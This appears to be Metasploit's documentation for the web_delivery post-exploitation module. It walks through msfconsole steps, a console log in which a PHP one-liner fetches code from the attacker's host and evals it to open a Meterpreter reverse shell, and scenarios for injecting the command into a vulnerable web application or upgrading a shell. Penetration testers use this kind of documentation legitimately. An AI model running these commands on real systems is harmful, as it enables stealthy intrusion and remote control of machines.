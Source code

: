 As a web server, web_delivery provides a great way to deliver a payload during post exploitation,
with the intention to stay stealthy because the payload does not touch the disk.

Currently, web_delivery supports three different languages for delivery: Python, PHP, and
Powershell. You should be able to tell which one you can use based on the target environment
you are in.

For example: if you have gained access through a PHP application, then it's safe to assume you can
use PHP. If you're in a Windows server (such as Windows Server 2008), then it's probably safe to
say the target supports Powershell.

## Verification Steps

---

To be able to use web_delivery, you must gain access to the target machine first, with the ability
to execute either the Python, or PHP, or Powershell interpreter.

At that point, you would use web_delivery similar to the following example:

1. Start msfconsole
2. Do: ```use exploit/multi/script/web_delivery```
3. Do: ```set target 1``` (1 is PHP. You can use ```show targets``` to see other options)
4. Do: ```set PAYLOAD php/meterpreter/reverse_tcp``` (You can do ```show payloads``` to see what options are suitable for the target)
5. Do: ```set LHOST IP``` (The IP the payload should connect back to)
6. Do: ```run```
7. At this point, a handler is up for that payload. And the module should instruct you to execute
   a command.
8. Copy the command. Depending on your pentesting scenario, typically you can either inject the
   command and get code execution, or run it from the target's shell, and get a session:

```
msf exploit(web_delivery) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.23.1:4444 
msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/z5inGkwCCQiz9
[*] Local IP: http://10.6.0.86:8080/z5inGkwCCQiz9
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.16.23.1:8080/z5inGkwCCQiz9'));"
[*] Delivering Payload
[*] Sending stage (33684 bytes) to 172.16.23.134
[*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.134:41684) at 2016-03-02 11:41:34 -0600
```

## Targets

---

**Python**

Python is a fairly popular language, especially on unix-based systems. For example, it comes with
Ubuntu Linux by default since 8.04. As well as Debian, and Mac OS X since 10.3.

**PHP**

PHP is a fairly popular language for web servers, especially Apache.

**Powershell/win**

Powershell is a popular language for newer Windows systems. Windows 7 and Windows Server 2008 R2
are the first Windows versions to come with Powershell by default. Older Windows systems such as XP
don't come with it by default, but it is still possible to see it installed on a corporate network.

## Scenarios

---

**Against a compromised web application**

web_delivery would work nicely for a web application with a command execution vulnerability.

One way to approach this would be:

1. Start exploit/multi/script/web_delivery
2. Use [Burp Suite](https://portswigger.net/burp/) to intercept the HTTP/HTTPS request, place the command in the parameter that
   results in arbitrary code execution.
3. Hopefully the modified HTTP/HTTPS request is successful, and you should get a session.

**Shell upgrade**

web_delivery is also useful to upgrade a shell type payload to a meterpreter one.

Here's how that can be done:

1. Start exploit/multi/script/web_delivery that generates/
2. On msfconsole, interact with the shell, and copy/pate the command.
3. You should get a meterpreter session.
